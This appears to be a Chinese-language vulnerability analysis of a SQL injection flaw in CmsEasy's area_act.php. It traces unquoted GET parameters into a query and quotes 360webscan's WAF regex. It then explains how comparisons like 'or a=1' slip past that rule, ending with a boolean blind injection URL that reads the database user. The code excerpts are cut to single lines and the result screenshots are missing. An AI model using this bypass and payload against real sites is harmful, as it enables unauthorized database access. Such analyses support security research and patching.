

漏洞分析
首先看到/lib/default/area_act.php
1 | function list_action() { |
可以看到province_id，city_id，section_id，id都是从GET请求中获取的，和where拼接，注意，此时相关id值都是没有用单引号包裹起来的。拼接where之后直接调用getrow()方法，跟进
1 | function getrow($condition,$order='1 desc',$cols='*') { |
可以看到，上面拼接的where就调用condition处理
1 | function condition(&$condition) { |
可以看到，where传进来之后会有先用htmlspecialchars转义，然后进行关键字检测，这里给后面的exp构造造成了不少困扰。回到getrow函数，进入到rec_select_one函数，跟进
1 | function rec_select_one($where,$fields="*",$order="id") { |
在这里面就是拼接SQL语句了，之后调用rec_query_one函数执行SQL语句。
整个SQL的流程大致就是这样，接下来就是构造exp了，也是最麻烦的一点，因为CmsEasy 用了webscan360。
首先需要调用到list_action方法的话，根据路由规则，可构造
1 | http://localhost/cmseasy/index.php?case=area&act=list&id=1 |
可以从mysql日志中看到
1 | SELECT * FROM `b_area` WHERE 1 and id=1 ORDER BY 1 desc limit 1 |
和上面的流程是一样的，id可控，这里CmsEasy是做了容错的，所以没有办法使用报错注入(此处可以用updatexml报错方法让CmsEasy出错，可绕过360webscan，数据库会报错，但是前台不显示)，所以此处只有使用布尔盲注。
首先看一下webscan360的拦截规则
1 | \\<.+javascript:window\\[.{1}\\\\x|<.*=(&#\\d+?;?)+?>|<.*(data|src)=data:text\\/html.*>|\\b(alert\\(|confirm\\(|expression\\(|prompt\\(|benchmark\s*?\(.*\)|sleep\s*?\(.*\)|load_file\s*?\\()|<[a-z]+?\\b[^>]*?\\bon([a-z]{4,})\s*?=|^\\+\\/v(8|9)|\\b(and|or)\\b\\s*?([\\(\\)'\"\\d]+?=[\\(\\)'\"\\d]+?|[\\(\\)'\"a-zA-Z]+?=[\\(\\)'\"a-zA-Z]+?|>|<|\s+?[\\w]+?\\s+?\\bin\\b\\s*?\(|\\blike\\b\\s+?[\"'])|\\/\\*.*\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT\s*(\(.+\)\s*|@{1,2}.+?\s*|\s+?.+?|(`|'|\").*?(`|'|\")\s*)|UPDATE\s*(\(.+\)\s*|@{1,2}.+?\s*|\s+?.+?|(`|'|\").*?(`|'|\")\s*)SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE)@{0,2}(\\(.+\\)|\\s+?.+?\\s+?|(`|'|\").*?(`|'|\"))FROM(\\(.+\\)|\\s+?.+?|(`|'|\").*?(`|'|\"))|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)"; |
这里布尔盲注的话需要使用and或者or，所以我们看一下相关规则
1 | \\b(and|or)\\b\\s*?([\\(\\)'\"\\d]+?=[\\(\\)'\"\\d]+?|[\\(\\)'\"a-zA-Z]+?=[\\(\\)'\"a-zA-Z]+? |
这里非常有意思
当输入or 1=1时，360webscan会检测到，输入or a=a也会检测到。但是当输入 or a=1时，就可以绕过了，这也是payload构造的关键。
所以我们可以使用ord(mid(user(),1,1))=114来绕过360webscan，使用这个payload也不会触发上面condition 函数里的关键字检测。
所以最终的payload是
1 | http://localhost/cmseasy/index.php?case=area&act=list&id=1%20or%20ord(mid(user(),1,1))=114 |
数据库的用户是root@localhost，第一个字符是r，对应的ascii是114，可以看下实际测试
当条件为真时，返回结果如下

当条件为假时，返回如下